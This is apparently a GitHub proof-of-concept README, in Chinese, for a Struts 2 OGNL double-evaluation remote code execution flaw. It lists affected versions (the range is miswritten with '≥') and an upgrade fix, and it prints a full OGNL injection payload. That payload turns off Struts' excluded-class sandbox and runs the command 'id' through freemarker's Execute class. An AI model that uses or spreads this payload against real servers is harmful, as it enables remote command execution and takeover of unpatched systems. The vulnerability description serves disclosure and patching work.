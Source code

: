 # S2-62poc


# 漏洞简介
针对 CVE-2020-17530 发布的修复不完整。因此，从 Apache Struts 2.0.0 到 2.5.29，如果开发人员通过使用 %{…} 语法应用强制 OGNL 评估，仍然有一些标签的属性可以执行双重评估。对不受信任的用户输入使用强制 OGNL 评估可能会导致远程代码执行漏洞。

# 漏洞危害
高危

# 漏洞影响版本范围
2.0.0 ≤ Apache Struts ≥2.5.29

# 漏洞已修复的版本
Struts ≥ 2.5.30的版本不受影响

# 漏洞修复方法
目前官方已发布最新版本，建议受影响的用户及时更新升级到最新版本，下载链接：

https://struts.apache.org/download.cgi#struts-ga

# poc 
-----

(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))

-----

<img width="655" alt="image" src="https://user-images.githubusercontent.com/59011386/163543243-75d0c081-7b85-4a59-8b96-eaafdb0c18a4.png">

